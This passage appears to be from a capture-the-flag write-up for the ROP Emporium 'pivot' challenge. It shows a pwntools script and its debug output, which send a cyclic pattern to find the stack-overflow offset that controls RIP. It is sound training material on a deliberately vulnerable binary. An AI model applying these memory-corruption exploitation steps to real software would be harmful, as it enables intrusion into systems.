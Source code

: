 The first time we ran the executable, we notice the pivoting address was `0x7fba9ee2af10`.
The second time we ran it, the pivoting address was `0x7fe2e5fccf10`.

### Goals

1. Call `ret2win()` from `libpivot.so`.

## Finding the Crash Offset

After a first glance at the binary, we notice that it accepts input twice. The first time, it asks for a ROP chain, and the second time, it asks for stack smashing.
For now, we are only interested in stack smashing, so we will send some junk for the first input and calculate the offset at which we can control RIP the second time it requsts input.

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './pivot'
io = process(PROCESS)

# Debugging
gdbscript = ""
pid = gdb.attach(io, gdbscript=gdbscript)

io.clean()
io.sendline(b"A"*128)
io.recvuntil(b"Now please send your stack smash")
io.sendline(cyclic(128))
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './pivot' argv=[b'./pivot'] : pid 9338
[*] running in new terminal: /usr/bin/gdb -q  "./pivot" 9338
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./pivot" 9338']
[+] Waiting for debugger: Done
[DEBUG] Received 0xae bytes:
    b'pivot by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Call ret2win() from libpivot\n'
    b'The Old Gods kindly bestow upon you a place to pivot: 0x7ff9dd8f9f10\n'
    b'Send a ROP chain now and it will land there\n'
    b'> '
[DEBUG] Sent 0x81 bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
[DEBUG] Received 0x2f bytes:
    b'Thank you!\n'
    b'\n'
    b'Now please send your stack smash\n'
    b'> '
[DEBUG] Sent 0x81 bytes:
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab\n'
[*] Switching to interactive mode
```
